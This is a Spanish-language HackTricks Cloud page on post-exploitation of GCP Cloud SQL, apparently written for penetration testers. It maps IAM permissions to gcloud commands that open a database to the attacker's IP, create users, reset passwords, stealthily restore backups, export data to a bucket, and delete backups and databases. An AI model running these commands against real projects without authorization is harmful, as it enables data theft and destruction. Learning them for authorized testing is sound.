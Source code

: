 # GCP - Cloud SQL Post Explotación

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Para más información sobre Cloud SQL, consulta:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para conectarte a las bases de datos **solo necesitas acceso al puerto de la base de datos** y conocer el **nombre de usuario** y **contraseña**, no hay requisitos de IAM. Así que, una forma fácil de obtener acceso, suponiendo que la base de datos tiene una dirección IP pública, es actualizar las redes permitidas y **permitir que tu propia dirección IP acceda a ella**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
También es posible usar **`--no-backup`** para **interrumpir las copias de seguridad** de la base de datos.

Dado que estos son los requisitos, no estoy completamente seguro de cuáles son los permisos **`cloudsql.instances.connect`** y **`cloudsql.instances.login`**. Si lo sabes, ¡envía un PR!

### `cloudsql.users.list`

Obtén una **lista de todos los usuarios** de la base de datos:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Este permiso permite **crear un nuevo usuario dentro** de la base de datos:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Este permiso permite **actualizar un usuario dentro** de la base de datos. Por ejemplo, podrías cambiar su contraseña:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Las copias de seguridad pueden contener **información sensible antigua**, por lo que es interesante revisarlas.\
**Restaurar una copia de seguridad** dentro de una base de datos:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para hacerlo de una manera más sigilosa, se recomienda crear una nueva instancia de SQL y recuperar los datos allí en lugar de en las bases de datos que se están ejecutando actualmente.

### `cloudsql.backupRuns.delete`

Este permiso permite eliminar copias de seguridad:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportar una base de datos** a un Bucket de Cloud Storage para que puedas acceder a ella desde allí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar una base de datos** (sobrescribir) desde un Bucket de Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Eliminar una base de datos de la instancia de db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
